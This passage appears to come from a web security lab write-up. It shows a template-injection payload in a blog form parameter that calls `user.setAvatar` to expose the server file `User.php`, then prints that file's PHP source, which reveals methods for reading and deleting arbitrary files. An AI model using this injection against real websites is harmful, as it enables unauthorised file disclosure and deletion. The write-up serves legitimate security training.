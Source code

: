 `blog-post-author-display=user.setAvatar('//home/carlos/User.php','image/png')&csrf=cUmfG1uDRV0PNWITUldBDQi0tlwTcfhh`

And after refreshing the page, and sending a `GET` request to the avatar I got the `User.php`:

```php
<?php

class User {
    public $username;
    public $name;
    public $first_name;
    public $nickname;
    public $user_dir;

    public function __construct($username, $name, $first_name, $nickname) {
        $this->username = $username;
        $this->name = $name;
        $this->first_name = $first_name;
        $this->nickname = $nickname;
        $this->user_dir = "users/" . $this->username;
        $this->avatarLink = $this->user_dir . "/avatar";

        if (!file_exists($this->user_dir)) {
            if (!mkdir($this->user_dir, 0755, true))
            {
                throw new Exception("Could not mkdir users/" . $this->username);
            }
        }
    }

    public function setAvatar($filename, $mimetype) {
        if (strpos($mimetype, "image/") !== 0) {
            throw new Exception("Uploaded file mime type is not an image: " . $mimetype);
        }

        if (is_link($this->avatarLink)) {
            $this->rm($this->avatarLink);
        }

        if (!symlink($filename, $this->avatarLink)) {
            throw new Exception("Failed to write symlink " . $filename . " -> " . $this->avatarLink);
        }
    }

    public function delete() {
        $file = $this->user_dir . "/disabled";
        if (file_put_contents($file, "") === false) {
            throw new Exception("Could not write to " . $file);
        }
    }

    public function gdprDelete() {
        $this->rm(readlink($this->avatarLink));
        $this->rm($this->avatarLink);
        $this->delete();
    }

    private function rm($filename) {
        if (!unlink($filename)) {
            throw new Exception("Could not delete " . $filename);
        }
    }
}
```
